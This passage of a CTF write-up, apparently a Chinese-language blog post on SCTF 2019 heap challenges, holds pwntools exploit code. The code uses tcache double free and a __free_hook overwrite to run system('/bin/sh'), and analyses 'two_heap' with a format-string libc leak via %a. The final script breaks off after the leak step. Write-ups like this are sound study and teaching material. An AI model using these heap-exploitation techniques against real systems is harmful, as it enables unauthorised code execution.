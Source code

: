```python
log.warning(hex(base))
add(0x38,'\x10\x70')
add(0x48,"")
add(0x7f,"")
libc.address=base
add(0x7f,p64(libc.sym['__free_hook']))
add(0x48)
add(0x48,p64(libc.sym['system']))
add(0x18,"/bin/sh\x00")
gdb.attach(p,'')
free()
p.interactive()
# 03:36:15
# 19-06-27
```
# two_heap
[binary][5]
run on libc 2.26...
题目如果用非预期的话比较简单.我(<-懒,迟早要遭报应的)就不复现[official's exp][6]了
## analysis
* 开始有个formatstr可以用%a泄漏
* 主要限制在malloc的size会被aline成8的倍数,而且不能重复,且小于0x80
* 可以double free
* tcache机制下,一般来说我们利用double free至少需要malloc 4个相同大小的chunk
```python
add(n)
free()
free()
add(n,xxxx)
add(n)
add(n)
```
* 例如0x70大小的chunk我们可以通过malloc(0x60 or 0x68)获得
## solution
* leak libc
* 有个比较特殊的东西就是0x20,可以通过`malloc(0x0,0x8,0x10,0x18)`获得所以我们就可以轻松滴getshell.
## exp
```python
from pwn import *
def name(n):
	p.sendafter(":\n",n)
def cmd(c):
	p.sendlineafter(":",str(c))
def add(size,n="\n"):
	cmd(1)
	cmd(size)
	p.sendafter(":\n",n)
def free(idx):
	cmd(2)
	cmd(idx)
#context.log_level='debug'
libc=ELF("./libc-2.26.so")
#libc=ELF("/glibc/x64/2.26/lib/libc-2.26.so")
p=process("./two_heap",env={"LD_PRELOAD":"./libc-2.26.so"})
#p=process('./two_heap',env={"LD_PRELOAD":"/glibc/x64/2.26/lib/libc-2.26.so"})
#p=remote("47.104.89.129",10002)
name("%a|%a%a%a%a")
p.readuntil("|0x0p+0")
p.read(4)
```

[1]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/easy-heap
[2]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[3]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[4]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/one_heap
[5]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/two_heap
[6]: https://www.xctf.org.cn/library/details/e79537ac55b532b974acc27ae514480068344dca/